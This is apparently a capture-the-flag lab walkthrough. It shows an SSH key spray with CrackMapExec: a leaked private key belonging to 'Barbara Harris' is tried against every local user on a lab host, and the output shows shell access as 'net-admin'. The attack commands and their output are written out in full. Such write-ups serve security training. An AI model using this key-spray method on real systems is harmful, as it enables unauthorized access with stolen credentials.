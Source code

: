 <details><summary>Output for 'get -r *' Command</summary></details>

---

#### Identifying the Next Attack

**What do we know**:
- There was a request to audit the SSH Keys; however, the task was never completed.
- Barbara Harris had access to critical systems.

<details><summary>Key Audit Information /home/sftp/uploads/.temp_keys/README.md</summary></details>

- Barbara Harris does not have a profile on the server.

<details><summary>List Of Users With a Profile</summary></details>

---

**What do we have**:
- Barbara's private key.

---

**What can we do**:
- Conduct a SSH Key Spray Attack

#### Crafting the Key Spray Attack

- **Step 1:** Create a user list to spray against:
  ```bash
  ls /home > users.txt
  ```

<details><summary>List of Users</summary></details>

- **Step 2:** Ensure Barbara's id_rsa has the correct permissions:
  ```bash
  chmod 600 id_rsa_barbara
  ```

---

#### Execute the SSH Key Spray

Use CrackMapExec (CME) to conduct the Key Spray:

```bash
crackmapexec ssh $ip -u users.txt --key-file id_rsa_barbara -p '' --continue-on-success
```

<details><summary>CME Syntax</summary></details>

<pre>
SSH         10.10.247.86    22     10.10.247.86     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.10
SSH         10.10.247.86    22     10.10.247.86     [-] d_wilson: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [-] e_johnson: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [-] j_davis: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [-] j_moore: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [-] j_smith: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [-] m_brown: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [+] net-admin: (keyfile: id_rsa_barbara)  - shell access!
SSH         10.10.247.86    22     10.10.247.86     [-] s_miller: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [-] sftp: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [-] sys-admin: Authentication failed.
</pre>

---